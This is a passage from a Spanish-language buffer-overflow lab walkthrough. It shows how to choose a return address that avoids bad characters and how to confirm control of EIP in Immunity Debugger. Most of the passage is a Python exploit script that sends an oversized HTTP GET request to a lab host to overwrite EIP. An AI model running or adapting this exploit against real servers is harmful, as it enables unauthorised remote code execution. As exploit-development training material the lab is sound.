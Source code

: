 ![Untitled](/assets/Buffer-Overflow/Lab2/Untitled 11.png)

Como se puede ver, se encontraron muchos resultados, ahora se debe tomar una dirección pero que no contenga los badchars encontrados anteriormente (”x00” y “x0d”).

## Verificación con breakpoints

Para este ejemplo se tomará la dirección “0x7657abcb”. La tarea ahora es hacer que el EIP apunte a esta dirección de OPCode y esto verificarlo con Immunity Debugger utilizando breakpoints.

Primero se debe representar esto en el script y se debe tomar en cuenta que las direcciones en memoria deben representarse con formato “little endian” en algunas arquitecturas, este es el caso por lo que se importará la librería “pack” para realizar esto:

```bash
#!/usr/bin/python3

import socket
import sys
from struct import pack

# Variables globales
ip_add = "192.168.0.104"
port = 80
offset= 1787

before_eip = b"A"*offset
eip = pack("<L", 0x7657abcb)
after_eip = (b"\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20"
b"\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40"
b"\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60"
b"\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80"
b"\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0"
b"\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0"
b"\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0"
b"\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff")

def exploit ():

    try:
        c = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        c.settimeout(7)
        c.connect((ip_add, port))

        c.send(b"GET " + before_eip + eip + after_eip + b" HTTP/1.1\r\n\r\n")
        c.recv(1024)
        c.close()
                
    except:
        print("[+] El programa ha concluido")
        sys.exit(1)

if __name__ == '__main__':
    exploit()
```

